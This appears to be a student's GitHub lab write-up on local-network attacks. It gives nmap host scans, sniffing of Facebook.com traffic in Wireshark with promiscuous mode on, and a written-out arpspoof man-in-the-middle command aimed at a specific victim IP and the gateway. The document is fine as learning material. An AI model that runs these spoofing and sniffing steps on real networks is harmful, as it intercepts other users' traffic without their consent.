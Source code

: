 ## NMAP XENDER

Nmap 192.168.43.176 

Nmap -sV 192.168.43.176

arp -a to know the hosts up
![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/p1.png)

Nmap -sV 192.168.43.28 to scan our target
![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/p2.png)

Nmap -sV 192.168.43.28 to confirm the host up
![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/p4.png)







## Facebook.com sniffing with wireshark
![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/p5.png)

## Enable promiscious mode on all interface
![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/p6.png)




## Arpspoof


Directing the traffic to my network




Lauch the attack with - sudo arpspoof- -i wlan0 -t 192.168.43.223 -r 192.168.43.1
![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/c1.png)



How to know the network to attack - sudo nmap 192.168.43.0-255

![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/c2.png)


To confirm the attack arp -a

![alt text](https://github.com/lucassayodemi/ProblemSets/blob/main/sayo/picture/c3.png)
